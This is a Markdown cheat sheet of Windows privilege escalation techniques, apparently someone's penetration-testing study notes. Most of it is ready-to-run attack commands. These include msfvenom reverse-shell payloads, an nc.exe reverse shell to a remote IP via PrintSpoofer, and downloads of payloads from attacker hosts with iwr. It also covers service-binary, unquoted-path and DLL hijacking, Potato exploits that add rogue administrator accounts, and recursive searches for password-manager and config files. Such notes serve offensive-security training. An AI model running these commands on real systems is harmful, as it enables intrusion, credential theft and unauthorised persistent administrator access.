

# Windows Privilege Escalations

Limitation: Requires GUI access

## Run as different user

```powershell
# Run as local administrator without password
powershell Start-Process -Verb Runas powershell

# Runas different user
runas /user:offsec cmd
.\PsExec.exe -u "domain.com\user" -p "SomeSecret" powershell
```

## Concepts

Security Identifier

* SID: unmutable value assigned by Local Security Authority or DC to principals user and groups
* SID Format `S-R-X-Y`
  * S = SID
  * R = 1 (revision nr)
  * X = Issuer Authority ID e.g. 5 = NT Authority
  * Y = One or more sub authorities including domain and relative ID starting with 1000 (first standard user)
* SID example `S-1-5-21-1336799502-1441772794-948155058-1001`

Well known SID on local machine

```plain
S-1-0-0                       Nobody        
S-1-1-0                       Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```

Token

* Token: security context consists of user SID, group SID and privileges
* Primary Token: copy of user access token specifies permission for processes and threads
* Impersonation Token: Threads can have a different security context then the parent process

Mandatory Integrity Control (MIC)

* MIC: hieararchy of trust levels to controls access to secureable objects
* Rule-of-Thumb: A principal with lower level can not write to an object of higher level
* View integrity level of files with `icalcs`
* View integrity level of processes with `ProcessExplorer`
* e.g Powershell level is High or Medium

```plain
- System: SYSTEM (kernel, ...)
- High: Elevated users
- Medium: Standard users
- Low: Very restricted rights often used in sandboxed[^privesc_win_sandbox] processes or for directories storing temporary data
- Untrusted: Lowest integrity level with extremely limited access rights for processes or objects that pose the most potential risk
```

User Account Control (UAC)

* UAC: protection to run most programs as standard user (Medium)
* Standard user token is created for non-privileged operations
* Admin is user token requires UAC consent (Prompt)

## Situational Awarness

|  |
| :---: |
| *Situational Awareness is the key for success* |

## Windows System Information Gathering

```powershell
# Username and hostname e.g.
whoami
whoami /all
whoami /priv

# Group membership like Remote Desktop Users (RDP), Administrator
whoami /groups

# Local users and groups Remote Management Users (WinRM), Backup Operators
net user
net user "name"
net localgroup

Get-LocalUser
Get-LocalGroup

# Important built-in groups
Get-LocalGroupMember "Administrators"
Get-LocalGroupMember "Backup Operators"        
Get-LocalGroupMember "Remote Desktop Users"    <- RDP
Get-LocalGroupMember "Remote Management Users" <- WinRM, Powershell Remoting

# Operating system, version and architecture
# Details can be found https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions
systeminfo

# Network information 
# Network connections with PID (param -o)
ipconfig /all
route print
netstat -ano

# Important network services
netstat -ano | findstr "80"; echo "HTTP"
netstat -ano | findstr "443"; echo "HTTPS"
netstat -ano | findstr "3306"; echo "MYSQL"
netstat -ano | findstr "3389"; echo "RDP"

# Installed applications starting with 32bit and 64bit
dir "C:\Program Files (x86)"
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*"  | select displayname
dir "C:\Program Files"
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# Downloads
dir "%userprofile%\Downloads"
gci "%userprofile%\Downloads"

# Running processes and path
Get-Process
Get-Process -FileVersionInfo
# Find by TCP port
Get-Process -Id (Get-NetTCPConnection -LocalPort 3306).OwningProcess
# List process and users names
Get-Process | % { $pi = Get-WmiObject Win32_Process -Filter "ProcessId = $($_.Id)"; $po = $pi.GetOwner(); echo $pi.Name $po.User}

# Hidden password manager and configuration files (conditional)
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\-Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Find Secretmanager like "Keypass"
# https://www.windowspro.de/wolfgang-sommergut/powershell-secretmanagement-passwoerter-keepass-secretstore-verwalten
Find-Module "SecretManagement"
```

Alternatively, if the target user has the Log on as a batch job access right, we can schedule a task to execute a program of our choice as this user. Furthermore, if the target user has an active session, we can use PsExec from Sysinternals.

## Powershell History

* Limitation: **PS Logging enabled**
* Transcription: over-the-shoulder-logging in transcript files
* Script Block Logging: execution details of PS scripts

```powershell
# History if not cleared
# Hardening: Clear-History
Get-History
# History by PSReadline Save Path
# Hardening: Set-PSReadlineOption -HistorySaveStyle SaveNothing
type (Get-PSReadlineOption).HistorySavePath

# Find Trascript files
Start-Transcript -Path path/to/file.txt

# Find Scriptblock
Get-WinEvent Microsoft-Windows-PowerShell/Operational | Where ID -eq 4104 | % { echo $_.Message }

# Open event viewer
# Navigate Application and Services Logs -> Microsoft -> Windows -> Powershell -> Operational
# Filter Log by EvenID = 4104
powershell Start-Process -Verb Runas eventvwr
```

## Powershell Remoting

```powershell
# Find Powershell Remoting
$password = ConvertTo-SecureString "somepassword!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("user", $password)
Enter-PSSession -ComputerName 192.168.1.2 -Credential $cred
```

```bash
# Use evil WinRM to avoid PShell Remoting Sessions
# Functions: pass-the-hash, up-download, in-memory-loading 
# escape "!", because that of shell history
evil-winrm -i IP -u user -p "somepassword\!\!"
```

## Automate Enumeration

* Install `sudo apt install peass`
* Use `winPEAS` Windows Privilege Escalation Awesome Scripts
* Use `linPEAS` Linux Privilege Escalation Awesome Scripts

```bash
# Attacker
sudo cp /usr/share/peass/winpeas/winPEASx64.exe /var/www/html
```

```powershell
# Target
iwr -uri http://ATTACKER/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe log
```

More Tools

* Seatbelt `https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe`
* WinPEAS `https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS`
* JAWS `https://github.com/411Hall/JAWS`
* PEASS-NG `https://www.kali.org/tools/peass-ng/` ↩︎

## Modify (AD) User accoutns

* Use `net user` to change (AD) user passwords
* Use `PowerView.ps1` to change user passowrds

```powershell
# Change user password
net user username userpass 

# Add and delete users
net user /add username userpass
net user /del username

# Add and delete local Administrator group
net localgroup /add Administrator username
net localgroup /del Administrator username

# Change AD user password
$userpass=ConvertTo-SecureString 'password' -AsPlainText -Force
Set-DomainUserPassword -Identity andy -AccountPassword $userpass
```

## Modify AD Groups

* Use `net groups` to add and delete users from Add group

## Hijacking Service Binaries

* Find a service binary that can be manipulated by lower privileged users
* Replace the binary with another one and run it (e.g. restart)

Find (Recon)

```powershell
# List running services
Get-CimInstance -ClassName win32_service | Select Name,Startmode,State,PathName | Where-Object {$_.State -like 'Running'}
# non-powershell
wmic service list brief
wmic service get pathname,state | findstr /i "running"

# List dependencies and permissions
Get-Service -Name Apache2.4 -DependentServices -RequiredServices
Get-ACL -Path "C:\xampp\apache\bin\httpd.exe" | Select -Expand Access
# non-powershell
sc.exe qc Apache2.4
icacls "C:\xampp\apache\bin\httpd.exe"

# https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
# Mask Permissions
# F  Full access
# M  Modify access
# RX Read and execute access
# R  Read-only access
# W  Write-only access
```

Replace (Exploit)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f exe
# or compile replacement file and host with http server
cd tools
x86_64-w64-mingw32-gcc win-adduser.c -o win-adduser.exe
sudo cp win-adduser.exe /var/www/html
```

```powershell
# Download and replace service
iwr -uri http://192.168.1.2/win-adduser.exe -o adduser.exe
move Path/to/file.exe mysqld.exe
move adduser.exe Path/to/file.exe

# Restart require SeShutDownPrivilege
whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled

# Restart
shutdown /r /t 0
Restart-Service mysql
# non-powershell
sc.exe restart mysql

# Verify attacks
Get-LocalGroupMember administrators
```

Automation (Never trust blindly)

* Recon exploitable vectors
* `https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc`

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 /var/www/html
```

```powershell
iwr -uri http://ATTACKER-IP/PowerUp.ps1 -o PowerUp.ps1
powershell -ep bypass
Import-Module ./PowerUp.ps1
Get-ModifiableServiceFile
Get-UnquotedService

# Abuse functions
# "net user john password123! /add"
# "net localgroup Administrators john /add"
Write-Binary
```

## Unquoted Service Path

Service default loading path

```plain
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My Service\service.exe
```

Find (Recon)

```powershell
# List service with unquoted paths
Get-CimInstance -ClassName win32_service | Select Name,Startmode,State,PathName | Where { $_.PathName -notmatch "^.:\\WINDOWS" -and $_.PathName -match "^.:" }
# non-powershell
wmic service get name, pathname | findstr /i /v ".:\\WINDOWS" | findstr /i "^.:"

# List service path permission search for (W)rite or (F)ullControl 
Get-ACL "Path/To/Service" | Select -expand Access
# non-powershell
icacls "Path/To/Service" 
```

Replace (Exploit)

```powershell
# Replace service
Stop-Service ServiceName
iwr -uri http://192.168.1.2/adduser.exe -Outfile Current.exe
copy Current.exe "Path/To/Service"
Start-Service ServiceName
```

```powershell
net stop serviceName
net start ServicesName
```

## Hickjacking DLLs

* Download `https://learn.microsoft.com/en-us/sysinternals/downloads/procmon`
* View running processes
* Use `ProcMon` to find (un)loaded DLLs
  * Limitation: Requires Admin privileges
  * Operation CreateFile
  * Filter: Process Name
  * Result: NAME NOT FOUND
* Craft a DLL that will be loaded by the user
* Replace the DLL file loaded by an application

DLL default loading path

```plain
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

```powershell
[Environment]::SetEnvironmentVariable("Path", $Env:PATH + "C:\Users\Public;","User")
```

```powershell
# List installed programs
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
# start procmon64.exe with admin permissions
Start-Process -Verb Runas procmon64.exe
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f dll
# Compile replacement file and host with http server
cd tools
x86_64-w64-mingw32-gcc win-dll-adduser.c --shared -o win-dll-adduser.dll
sudo cp win--dll-adduser.dll /var/www/html
```

```powershell
# Download and replace service
iwr -uri http://192.168.1.2/win-dll-adduser.dll -o adduser.dll
copy adduser.dll Path/to/file.dll

# Verify exploit
net user
Get-Process filezilla -Module | Group -Property FileName | Select Name
```

## Exploit Scheduled Tasks

Requires: Target user has the **Log on as a batch job access** right, we can **schedule a task to execute a program** of our choice as this user.

Privilege Escalation Vectors

```plain
As which user account (principal) does this task get executed?
What triggers are specified for the task?
What actions are executed when one or more of these triggers are met?
```

Find (Recon)

```powershell
# Find privileged user by author
Get-ScheduledTask | where { $_.Author -notmatch "^Microsoft" -and $_.Author -notmatch "^$"} | Select Author,TaskPath,TaskName
# non-powershell
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v /TN \TaskPath\TaskName

# Lookup important task information
TaskName:
Author:
Run As
Task To Run:
Next Run Time:
Last Run Time:

# List permission
Get-ACL Path/To/Binary/or/Script
# non-powershell
icacls Path/To/Binary/or/Script
```

Replace (Exlpoit)

* Replace the file (like for services or DLLs)
* Trigger the task or wait for time scheduled task

## Exploit Privileges

`SeImpersonatePrivilege`: might allow to leverage a token with another security context. A **user with this privilege can perform operations in the security context of another user account** under the specified circumstances. Other privileges that may lead to privilege escalation are `SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug`.

* Default Windows groups: Administrators, **LOCAL SERVICE, NETWORK SERVICE, and SERVICE** 
* Detault IIS groups: **LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity**
* Tools:
  * PrintSpoofer `https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
  * SigmaPotato `https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
  * JuicyPotatoNG `https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip`

```powershell
whoami /priv
..
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

# Reverse Shell
# Require Print Spooler Service
# -i interactive do NOT open a new window
PrintSpoofer.exe -i -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd.exe"
nc.exe -l -p 1337

# Add User
SigmaPotato.exe "net user john password123! /add"
SigmaPotato.exe "net localgroup Administrators john /add"

whoami /priv
..
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled

# Use JuicyPotatoNG 
# Source `https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip`
./JuicyPotatoNG.exe -t u -p "C:\windows\system32\cmd.exe" -a "/c net user admin secret12345! /add"
./JuicyPotatoNG.exe -t u -p "C:\windows\system32\cmd.exe" -a "/c net localgroup Administrators admin /add"
```

## Exploit Vulnerabilities

Find (Recon)

```bash
# privileges, system info and security updates
whoami /priv
systeminfo

```

Exploit Kernel

```powershell
.\CVE-2023-29360.exe
whoami
nt authority\system
```

## Links

* Methodlogy and Resources `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources`
* Privilege Secure `https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc`
* Potato Windows Exploits `https://github.com/tylerdotrar/SigmaPotato`
